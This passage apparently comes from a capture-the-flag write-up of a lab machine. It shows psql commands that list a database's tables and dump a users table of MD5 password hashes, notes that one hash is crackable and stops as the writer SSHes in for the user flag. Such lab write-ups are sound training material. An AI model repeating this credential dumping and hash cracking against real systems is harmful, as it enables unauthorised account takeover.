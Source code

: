 We can use `\connect mentorquotes_htb` to use that database, and then view the tables within it. Then we can enumerate the tables and select everything:

```
mentorquotes_db-# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=# select * from users;
 id |           email           |  username   |             password             
----+---------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb    | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb      | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
  4 | fakeuser@mentorquotes.htb | fakeuser    | 5f4dcc3b5aa765d61d8327deb882cf99
  5 | james@mentorquotes.htb    | fakeuser    | 5f4dcc3b5aa765d61d8327deb882cf99
  6 | testuser@mentorquotes.htb | james       | 5f4dcc3b5aa765d61d8327deb882cf99
  7 | newjames@mentorquotes.htb | james       | 5f4dcc3b5aa765d61d8327deb882cf99
```

The hash for `svc` is crackable.

<figure><img src="../../../.gitbook/assets/image (638) (1).png" alt=""><figcaption></figcaption></figure>

Then we can SSH in as `svc` and grab the user flag:

